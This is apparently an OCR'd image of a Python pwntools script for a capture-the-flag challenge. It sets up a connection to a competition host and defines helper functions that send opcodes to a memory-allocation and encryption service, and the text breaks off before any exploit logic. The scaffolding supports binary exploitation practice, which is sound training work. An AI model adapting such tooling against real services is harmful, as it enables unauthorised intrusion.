```py
from pwn import *

exe = ELF("GS_memory_server_patched")
libc = ELF("libc.so.6")
ld = ELF("./ld-2.31.so")

context.binary = exe

def conn():
    if args.LOCAL:
        r = remote("127.0.0.1", 1337)
    else:
        r = remote("instances.challenge-ecw.fr", 41621)

    return r

def send_int(r, i):
    r.send(int.to_bytes(i, 4, "little"))

def send_long(r, i):
    r.send(int.to_bytes(i, 8, "little"))

def send_0_get_informations(r):
    send_int(r, 0)
    log.info(f"RAM_info = {r.recv()}")

def send_1_RAM_malloc(r, size, should_use_crypto):
    send_int(r, 1)
    send_int(r, size | (should_use_crypto<<16))
    RAM_malloc_res = int.from_bytes(r.recv(4), "little")
    log.info(f"RAM_malloc_res = {hex(RAM_malloc_res)}")
    if RAM_malloc_res == 0:
        RAM_id = int.from_bytes(r.recv(4), "little")
        log.info(f"RAM_id = {hex(RAM_id)}")

def send_2_RAM_free(r, ram_id):
    send_int(r, 2)
    send_int(r, ram_id)
    RAM_free_res = int.from_bytes(r.recv(4), "little")
    log.info(f"RAM_free_res = {hex(RAM_free_res)}")

def send_3_RAM_decrypt(r, ram_id):
    send_int(r, 3)
    send_int(r, ram_id)
    RAM_decrypt_res = int.from_bytes(r.recv(4), "little")
    log.info(f"RAM_decrypt_res = {hex(RAM_decrypt_res)}")
    if RAM_decrypt_res == 0:
        RAM_content_size = int.from_bytes(r.recv(2), "little")
        log.info(f"RAM_content_size = {hex(RAM_content_size)}")
        RAM_content = r.recv(RAM_content_size)
        log.info(f"RAM_content = {RAM_content}")
        return RAM_content

def send_4_RAM_encrypt(r, ram_id, size, content):
    assert size == len(content)

    send_int(r, 4)
    send_long(r, (ram_id) | (size<<32))
    r.send(content)
    RAM_encrypt_res = int.from_bytes(r.recv(4), "little")
    log.info(f"RAM_encrypt_res = {hex(RAM_encrypt_res)}")

def send_5_RAM_free_all(r):
```